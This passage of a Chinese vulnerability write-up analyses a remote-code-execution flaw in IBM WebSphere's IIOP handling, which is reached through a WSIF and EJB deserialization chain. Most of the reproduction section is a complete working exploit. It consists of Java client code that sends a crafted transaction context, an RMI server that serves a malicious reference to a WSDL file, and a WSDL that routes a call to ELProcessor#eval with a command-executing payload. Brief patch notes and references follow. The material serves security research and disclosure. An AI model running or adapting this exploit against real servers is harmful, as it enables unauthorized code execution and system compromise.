  
而根据IBM的文章,WSIF服务其实是一种服务调用框架,这里我们可以根据官方文档(https://www.ibm.com/docs/ru/was-nd/8.5.5?topic=services-developing-wsif-service)来构造一个WSDL文档.
### createOperation
得到该代理类后在后续通过`Method fbpk = this.findFindByPrimaryKey(homeClass);`得到homeClass的`FindByPrimaryKey`方法就会触发代理类`WSIFClientProxy`的invoke方法,在invoke方法中调用`WSIFPort#createOperation`来根据WSIF提供的WSDL文档来映射文档中的方法得到要执行的方法对象`wsifOperation`,
再调用`wsifOperation#executeRequestResponseOperation`反射调用文档指定的方法.  
  
最后通过在wsdl文档中执行映射的方法为`ELProcessor#eval`来进行EL表达式注入RCE.
## 漏洞复现
最后的poc代码:
```java
package org.example;

import com.ibm.ejs.container.*;
import com.ibm.ejs.csi.J2EENameImpl;
import com.ibm.websphere.csi.J2EEName;

import javax.ejb.Handle;
import java.io.Serializable;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.rmi.RemoteException;
import java.util.Properties;

class EJSWrapperS extends EJSWrapper {
    @Override
    public Handle getHandle() throws RemoteException {
        Handle var2 = null;
        try {
            SessionHome sessionHome = new SessionHome();
            J2EEName j2EEName = new J2EENameImpl("aa", "aa", "aa");
            Field j2eeName = EJSHome.class.getDeclaredField("j2eeName");
            j2eeName.setAccessible(true);
            j2eeName.set(sessionHome, j2EEName);
            Field jndiName = sessionHome.getClass().getSuperclass().getDeclaredField("jndiName");
            jndiName.setAccessible(true);
            jndiName.set(sessionHome, "rmi://192.168.18.1:1099/poc");
            Serializable key = "\"a\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"java.lang.Runtime.getRuntime().exec('cmd.exe notepad')\")";
            BeanId beanId = new BeanId(sessionHome, key, true);
            BeanMetaData beanMetaData = new BeanMetaData(1);
            beanMetaData.homeInterfaceClass = com.ibm.ws.batch.CounterHome.class;
            Properties initProperties = new Properties();
            initProperties.setProperty("java.naming.factory.object", "org.apache.wsif.naming.WSIFServiceObjectFactory");
            Constructor c = EntityHandle.class.getDeclaredConstructor(BeanId.class, BeanMetaData.class, Properties.class);
            c.setAccessible(true);
            var2 = (Handle) c.newInstance(beanId, beanMetaData, initProperties);
        } catch (Exception e) {
            e.printStackTrace();
        }
        return var2;
    }
}
// poc
package org.example;

import com.ibm.CORBA.iiop.CDROutputStream;
import com.ibm.CORBA.iiop.ClientDelegate;
import com.ibm.CORBA.iiop.IOR;
import com.ibm.CORBA.iiop.ORB;
import com.ibm.WsnOptimizedNaming._NamingContextStub;
import com.ibm.rmi.Profile;
import com.ibm.rmi.ServiceContext;
import com.ibm.rmi.iiop.Connection;
import com.ibm.rmi.iiop.GIOPImpl;
import com.ibm.ws.naming.jndicos.CNContextImpl;
import com.ibm.ws.naming.util.WsnInitCtx;
import org.apache.wsif.providers.ejb.WSIFPort_EJB;
import org.omg.CORBA.Any;
import org.omg.CORBA.portable.ObjectImpl;
import org.omg.CosTransactions.PropagationContext;
import org.omg.CosTransactions.PropagationContextHelper;
import org.omg.CosTransactions.TransIdentity;
import org.omg.CosTransactions.otid_t;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.ArrayList;
import java.util.Properties;

public class Main {
    public static void main(String[] args) throws Exception {
        Properties env = new Properties();
        env.put(Context.PROVIDER_URL, "iiop://192.168.18.4:2809");
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.ibm.websphere.naming.WsnInitialContextFactory");
        InitialContext initialContext = new InitialContext(env);
        initialContext.list("");

        Field f_defaultInitCtx = initialContext.getClass().getDeclaredField("defaultInitCtx");
        f_defaultInitCtx.setAccessible(true);
        WsnInitCtx defaultInitCtx = (WsnInitCtx) f_defaultInitCtx.get(initialContext);
        Field f_context = defaultInitCtx.getClass().getDeclaredField("_context");
        f_context.setAccessible(true);
        CNContextImpl _context = (CNContextImpl) f_context.get(defaultInitCtx);
        Field f_corbaNC = _context.getClass().getDeclaredField("_corbaNC");
        f_corbaNC.setAccessible(true);
        _NamingContextStub _corbaNC = (_NamingContextStub) f_corbaNC.get(_context);
        Field f__delegate = ObjectImpl.class.getDeclaredField("__delegate");
        f__delegate.setAccessible(true);
        ClientDelegate clientDelegate = (ClientDelegate)f__delegate.get(_corbaNC);
        Field f_ior = clientDelegate.getClass().getSuperclass().getDeclaredField("ior");
        f_ior.setAccessible(true);
        IOR ior = (IOR) f_ior.get(clientDelegate);
        Field f_orb = clientDelegate.getClass().getSuperclass().getDeclaredField("orb");
        f_orb.setAccessible(true);
        ORB orb = (ORB)f_orb.get(clientDelegate);
        GIOPImpl giopimpl = (GIOPImpl) orb.getServerGIOP();
        Method getConnection = giopimpl.getClass().getDeclaredMethod("getConnection", com.ibm.CORBA.iiop.IOR.class, Profile.class, com.ibm.rmi.corba.ClientDelegate.class, String.class);
        getConnection.setAccessible(true);
        Connection connection = (Connection) getConnection.invoke(giopimpl,ior,ior.getProfile(),clientDelegate,"nbxiglk");
        Method setConnectionContexts = connection.getClass().getDeclaredMethod("setConnectionContexts", ArrayList.class);
        setConnectionContexts.setAccessible(true);
        WSIFPort_EJB wsifPort_ejb = new WSIFPort_EJB(null,null,null);
        Field fieldEjbObject = wsifPort_ejb.getClass().getDeclaredField("fieldEjbObject");
        fieldEjbObject.setAccessible(true);
        fieldEjbObject.set(wsifPort_ejb,new EJSWrapperS());
        CDROutputStream outputStream = ORB.createCDROutputStream(orb);
        outputStream.putEndian();
        Any any = orb.create_any();
        any.insert_Value(wsifPort_ejb);
        PropagationContext propagationContext = new PropagationContext(0,
                new TransIdentity(null,null, new otid_t(0,0,new byte[0])),
                new TransIdentity[0],
                any);
        PropagationContextHelper.write(outputStream, propagationContext);
        byte[] result = outputStream.toByteArray();
        ServiceContext serviceContext = new ServiceContext(0,result);
        ArrayList var4 = new ArrayList();
        var4.add(serviceContext);
        setConnectionContexts.invoke(connection,var4);
        initialContext.list("");
    }
}

//rmi Server
package org.example;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.wsif.naming.WSIFServiceStubRef;

import javax.naming.Reference;
import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Main {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference ref = new Reference(WSIFServiceStubRef.class.getName(), (String) null, (String) null);
        ref.add(new StringRefAddr("wsdlLoc", "http://192.168.18.1:8080/poc.wsdl"));
        ref.add(new StringRefAddr("serviceNS", null));
        ref.add(new StringRefAddr("serviceName", null));
        ref.add(new StringRefAddr("portTypeNS", "http://wsifservice.addressbook/"));
        ref.add(new StringRefAddr("portTypeName", "Gadget"));
        ref.add(new StringRefAddr("preferredPort", "JavaPort"));
        ref.add(new StringRefAddr("className", "com.ibm.ws.batch.CounterHome"));
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("poc", referenceWrapper);

    }

}
```
```xml
<?xml version="1.0" ?>

<definitions targetNamespace="http://wsifservice.addressbook/"
             xmlns:tns="http://wsifservice.addressbook/"
             xmlns:xsd="http://www.w3.org/1999/XMLSchema"
             xmlns:format="http://schemas.xmlsoap.org/wsdl/formatbinding/"
             xmlns:java="http://schemas.xmlsoap.org/wsdl/java/"
             xmlns="http://schemas.xmlsoap.org/wsdl/">

    <!-- type defs -->

    <!-- message declns -->
    <message name="findByPrimaryKeyRequest">
        <part name="el" type="xsd:string"/>
    </message>

    <message name="findByPrimaryKeyResponse">
        <part name="counterObject" type="xsd:object"/>
    </message>

    <!-- port type declns -->
    <portType name="Gadget">
        <operation name="findByPrimaryKey">
            <input message="tns:findByPrimaryKeyRequest"/>
            <output message="tns:findByPrimaryKeyResponse"/>
        </operation>
    </portType>

    <!-- binding declns -->
    <binding name="JavaBinding" type="tns:Gadget">
        <java:binding/>
        <format:typeMapping encoding="Java" style="Java">
            <format:typeMap typeName="xsd:string" formatType="java.lang.String"/>
            <format:typeMap typeName="xsd:object" formatType="java.lang.Object"/>
        </format:typeMapping>
        <operation name="findByPrimaryKey">
            <java:operation
                methodName="eval"
                parameterOrder="el"
                methodType="instance"
                returnPart="counterObject"
            />
        </operation>
    </binding>

    <!-- service decln -->
    <service name="GadgetService">
        <port name="JavaPort" binding="tns:JavaBinding">
            <java:address className="javax.el.ELProcessor"/>
        </port>
    </service>

</definitions>
``` 
最后到EL表达式的完整堆栈如下  
  
  
## 补丁
1. 在demarshalContext方法里,取消了read_any方法.    
2. WSIFPort_EJB类的readObject方法里,取消了handle.getEJBObject方法.
## 参考
https://www.zerodayinitiative.com/blog/2020/7/20/abusing-java-remote-protocols-in-ibm-websphere  
https://cert.360.cn/report/detail?id=3d016bdef66b8e29936f8cb364f265c8  
https://paper.seebug.org/1315/#_1  
https://xz.aliyun.com/t/8248  
https://www.ibm.com/docs/ru/was-nd/8.5.5?topic=services-developing-wsif-service